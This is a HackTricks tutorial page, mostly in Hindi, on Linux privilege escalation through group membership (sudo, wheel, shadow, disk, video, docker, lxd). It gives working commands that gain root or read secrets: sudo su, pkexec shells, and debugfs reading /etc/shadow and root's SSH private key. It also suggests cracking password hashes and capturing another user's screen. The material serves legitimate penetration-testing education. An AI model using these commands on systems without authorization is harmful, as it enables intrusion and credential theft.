 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Use [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_term=trickest&utm_content=command-injection) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=command-injection" %}

# Sudo/Admin Groups

## **PE - Method 1**

**कभी-कभी**, **डिफ़ॉल्ट रूप से \(या क्योंकि कुछ सॉफ़्टवेयर को इसकी आवश्यकता होती है\)** **/etc/sudoers** फ़ाइल के अंदर आप इनमें से कुछ पंक्तियाँ पा सकते हैं:
```bash
# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL

# Allow members of group admin to execute any command
%admin 	ALL=(ALL:ALL) ALL
```
यह मतलब है कि **कोई भी उपयोगकर्ता जो समूह sudo या admin का सदस्य है, वह sudo के रूप में कुछ भी निष्पादित कर सकता है**।

यदि ऐसा है, तो **रूट बनने के लिए आप बस निष्पादित कर सकते हैं**:
```text
sudo su
```
## PE - Method 2

सभी suid बाइनरी खोजें और जांचें कि क्या बाइनरी **Pkexec** है:
```bash
find / -perm -4000 2>/dev/null
```
यदि आप पाते हैं कि बाइनरी pkexec एक SUID बाइनरी है और आप sudo या admin में हैं, तो आप शायद pkexec का उपयोग करके sudo के रूप में बाइनरीज़ निष्पादित कर सकते हैं। इसकी सामग्री की जांच करें:
```bash
cat /etc/polkit-1/localauthority.conf.d/*
```
वहाँ आप पाएंगे कि कौन से समूह **pkexec** निष्पादित करने की अनुमति रखते हैं और **डिफ़ॉल्ट रूप से** कुछ लिनक्स में **sudo या admin** जैसे समूह **प्रकट** हो सकते हैं।

**रूट बनने के लिए आप निष्पादित कर सकते हैं**:
```bash
pkexec "/bin/sh" #You will be prompted for your user password
```
यदि आप **pkexec** निष्पादित करने की कोशिश करते हैं और आपको यह **त्रुटि** मिलती है:
```bash
polkit-agent-helper-1: error response to PolicyKit daemon: GDBus.Error:org.freedesktop.PolicyKit1.Error.Failed: No session for cookie
==== AUTHENTICATION FAILED ===
Error executing command as another user: Not authorized
```
**यह इसलिए नहीं है कि आपके पास अनुमतियाँ नहीं हैं बल्कि इसलिए कि आप GUI के बिना जुड़े नहीं हैं**। और इस समस्या का एक समाधान यहाँ है: [https://github.com/NixOS/nixpkgs/issues/18012\#issuecomment-335350903](https://github.com/NixOS/nixpkgs/issues/18012#issuecomment-335350903)। आपको **2 अलग ssh सत्र** की आवश्यकता है:

{% code title="session1" %}
```bash
echo $$ #Step1: Get current PID
pkexec "/bin/bash" #Step 3, execute pkexec
#Step 5, if correctly authenticate, you will have a root session
```
{% endcode %}

{% code title="session2" %}
```bash
pkttyagent --process <PID of session1> #Step 2, attach pkttyagent to session1
#Step 4, you will be asked in this session to authenticate to pkexec
```
{% endcode %}

# व्हील समूह

**कभी-कभी**, **डिफ़ॉल्ट रूप से** **/etc/sudoers** फ़ाइल के अंदर आप यह पंक्ति पा सकते हैं:
```text
%wheel	ALL=(ALL:ALL) ALL
```
यह मतलब है कि **कोई भी उपयोगकर्ता जो समूह व्हील का सदस्य है, वह sudo के रूप में कुछ भी निष्पादित कर सकता है**।

यदि ऐसा है, तो **रूट बनने के लिए आप बस निष्पादित कर सकते हैं**:
```text
sudo su
```
# Shadow Group

**shadow** समूह के उपयोगकर्ता **/etc/shadow** फ़ाइल को **पढ़** सकते हैं:
```text
-rw-r----- 1 root shadow 1824 Apr 26 19:10 /etc/shadow
```
So, read the file and try to **crack some hashes**.

# Disk Group

यह विशेषाधिकार लगभग **रूट एक्सेस के बराबर** है क्योंकि आप मशीन के अंदर सभी डेटा तक पहुँच सकते हैं।

Files:`/dev/sd[a-z][1-9]`
```text
debugfs /dev/sda1
debugfs: cd /root
debugfs: ls
debugfs: cat /root/.ssh/id_rsa
debugfs: cat /etc/shadow
```
ध्यान दें कि debugfs का उपयोग करके आप **फाइलें लिख** भी सकते हैं। उदाहरण के लिए, `/tmp/asd1.txt` को `/tmp/asd2.txt` में कॉपी करने के लिए आप कर सकते हैं:
```bash
debugfs -w /dev/sda1
debugfs:  dump /tmp/asd1.txt /tmp/asd2.txt
```
हालांकि, यदि आप **रूट द्वारा स्वामित्व वाले फ़ाइलें लिखने** की कोशिश करते हैं \(जैसे `/etc/shadow` या `/etc/passwd`\) तो आपको "**अनुमति अस्वीकृत**" त्रुटि मिलेगी।

# वीडियो समूह

कमांड `w` का उपयोग करके आप **जान सकते हैं कि कौन सिस्टम पर लॉग इन है** और यह निम्नलिखित आउटपुट दिखाएगा:
```bash
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1                      22:16    5:13m  0.05s  0.04s -bash
moshe    pts/1    10.10.14.44      02:53   24:07   0.06s  0.06s /bin/bash
```
The **tty1** का मतलब है कि उपयोगकर्ता **yossi शारीरिक रूप से** मशीन पर एक टर्मिनल में लॉग इन है।

**video group** को स्क्रीन आउटपुट देखने का अधिकार है। मूल रूप से आप स्क्रीन को देख सकते हैं। ऐसा करने के लिए, आपको **स्क्रीन पर वर्तमान छवि को** कच्चे डेटा में प्राप्त करना होगा और यह जानना होगा कि स्क्रीन किस रिज़ॉल्यूशन का उपयोग कर रही है। स्क्रीन डेटा को `/dev/fb0` में सहेजा जा सकता है और आप इस स्क्रीन का रिज़ॉल्यूशन `/sys/class/graphics/fb0/virtual_size` पर पा सकते हैं।
```bash
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size
```
To **open** the **raw image** you can use **GIMP**, select the **`screen.raw`** file and select as file type **Raw image data**:

![](../../.gitbook/assets/image%20%28208%29.png)

Then modify the Width and Height to the ones used on the screen and check different Image Types \(and select the one that shows better the screen\):

![](../../.gitbook/assets/image%20%28295%29.png)

# Root Group

ऐसा लगता है कि डिफ़ॉल्ट रूप से **रूट समूह के सदस्य** कुछ **सेवा** कॉन्फ़िगरेशन फ़ाइलों या कुछ **लाइब्रेरी** फ़ाइलों या **अन्य दिलचस्प चीजों** को **संशोधित** करने तक पहुँच सकते हैं, जिन्हें विशेषाधिकार बढ़ाने के लिए उपयोग किया जा सकता है...

**जांचें कि रूट सदस्य कौन सी फ़ाइलें संशोधित कर सकते हैं**:
```bash
find / -group root -perm -g=w 2>/dev/null
```
# Docker Group

आप होस्ट मशीन के रूट फ़ाइल सिस्टम को एक इंस्टेंस के वॉल्यूम में माउंट कर सकते हैं, इसलिए जब इंस्टेंस शुरू होता है, तो यह तुरंत उस वॉल्यूम में `chroot` लोड करता है। यह प्रभावी रूप से आपको मशीन पर रूट देता है।

{% embed url="https://github.com/KrustyHack/docker-privilege-escalation" %}

{% embed url="https://fosterelli.co/privilege-escalation-via-docker.html" %}

# lxc/lxd Group

[lxc - Privilege Escalation](lxd-privilege-escalation.md)


<figure><img src="/.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

[**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_term=trickest&utm_content=command-injection) का उपयोग करें ताकि आप आसानी से दुनिया के **सबसे उन्नत** सामुदायिक उपकरणों द्वारा संचालित **कार्यप्रवाह** बना और **स्वचालित** कर सकें।\
आज ही एक्सेस प्राप्त करें:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=command-injection" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे साथ जुड़ें** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
